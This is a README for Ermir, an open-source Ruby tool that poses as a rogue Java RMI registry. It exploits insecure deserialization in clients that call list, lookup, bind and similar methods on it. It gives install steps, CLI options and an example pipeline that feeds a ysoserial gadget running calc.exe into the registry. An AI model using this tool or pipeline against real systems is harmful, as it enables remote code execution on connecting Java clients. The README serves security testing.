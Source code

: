 # Ermir

Ermir is an Evil/Rogue RMI Registry, it exploits unsecure deserialization on any Java code calling standard RMI methods on it (`list()`/`lookup()`/`bind()`/`rebind()`/`unbind()`).

# Requirements

- Ruby v3.0.3 or newer.

## Installation

Install Ermir from rubygems.org:

    $ gem install ermir

or clone the repo and build the gem:

    $ git clone https://github.com/hakivvi/ermir.git
    $ rake install

## Usage

Ermir is a cli gem, it comes with 2 cli files, `ermir` and `gadgetmarshal`, `ermir` is the actual gem and the latter is just a pretty interface to `GadgetMarshaller.java` file which rewrites the gadgets of Ysoserial to match `MarshalInputStream` requirements, the output should be then piped into `ermir` or a file.

`ermir` usage:
```text
Ermir by @hakivvi * https://github.com/hakivvi/ermir.
Info:
    Ermir is a Rogue/Evil RMI Registry which exploits unsecure Java deserialization on any Java code calling standard RMI methods on it.
Usage: ermir [options]
    -l, --listen   bind the RMI Registry to this ip and port (default: 0.0.0.0:1099).
    -f, --file     path to file containing the gadget to be deserialized.
    -p, --pipe     read the serialized gadget from the standard input stream.
    -v, --version  print Ermir version.
    -h, --help     print options help.
Example:
    $ gadgetmarshal /path/to/ysoserial.jar Groovy1 calc.exe | ermir --listen 127.0.0.1:1099 --pipe
```
`gadgetmarshal` usage:
```text
Usage: gadgetmarshal /path/to/ysoserial.jar Gadget1 cmd (optional)/path/to/output/file
```

## PoC



## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ermir. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [code of conduct](https://github.com/hakivvi/ermir/blob/main/CODE_OF_CONDUCT.md).

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the Ermir project's codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/hakivvi/ermir/blob/master/CODE_OF_CONDUCT.md).
